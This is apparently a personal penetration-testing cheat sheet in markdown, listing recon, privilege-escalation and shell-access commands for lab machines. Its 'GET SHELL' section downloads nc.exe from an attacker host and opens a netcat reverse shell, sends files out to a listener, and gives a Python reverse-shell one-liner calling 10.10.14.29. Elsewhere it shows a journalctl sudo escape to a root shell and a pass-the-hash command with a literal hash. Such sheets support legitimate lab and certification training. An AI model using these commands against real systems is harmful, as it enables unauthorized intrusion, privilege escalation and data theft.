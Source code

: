 # RECON
## Initial Nmap Scan
```bash
nmap -Pn -sC -sV -oA nmap $ip
```

## Enumeration Checklists
https://github.com/theonlykernel/enumeration/wiki
https://medium.com/oscp-cheatsheet/oscp-cheatsheet-6c80b9fa8d7e

## WPscan for wordpress
```bash
wpscan --disable-tls-checks --url $url
```

## Samba
```bash
auxiliary/scanner/smb/smb_version
nmblookup -A $ip
smbclient -L $ip
```

## dirbuster
wordlist: /usr/share/wordlists/dirb/common.txt
URL to fuzz (find file in unknown folder)
/{dir}/phpbash.min.php

## Gobuster HTTP Enumeration
```bash
./gobuster dir -u $url -w /usr/share/wordlists/dirb/common.txt
```





# GENERAL
## Kali Configuration
```bash
## set keyboard layout
setxkbmap -layout de
# set timezone
sudo dpkg-reconfigure tzdata
```

## Find without errors
```bash
find / -name test.py 2>/dev/null
```

## Save all Terminal Output to File
https://unix.stackexchange.com/questions/200637/save-all-the-terminal-output-to-a-file
```bash
# Convert RAW Output to TXT
cat $SCRIPT_LOG_FILE | perl -pe 's/\e([^\[\]]|\[.*?[a-zA-Z]|\].*?\a)//g' | col -b > $txtfile
```

## NTFS Alternate Datastream
```bash
# show alternate datastreams
dir /R

# output alternate datastreams
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```
# PRIVESC
## LinEnum.sh
https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

## GTFOBIns
https://gtfobins.github.io/ 

## journalctl
```bash
# size termain windows very small
usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
!/bin/sh
# whoami
root
```

## Pass-the-Hash spawn CMD
```bash
pth-winexe -U$domain/$username%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00 //$ip cmd
```

# GET SHELL
## Netcat Windows
```bash
powershell wget "http://[KALI-IP]/windows-resources/binaries/nc.exe" -outfile nc.exe
nc.exe -e cmd.exe [KALI-IP] 1234

#on Kali listen with
nc -nvlp 1234
```

## Transfer Files
```bash
# listen on kali with
nc -lp 1235 > [FILENAME]

# transfer file on victim
nc.exe -w 3 [KALI-IP] 1235 <[FILENAME]
```

## Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.29",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
```bash
# make shell better
python -c 'import pty; pty.spawn("/bin/bash");' 
#on Kali listen with
nc -nvlp 1234
```
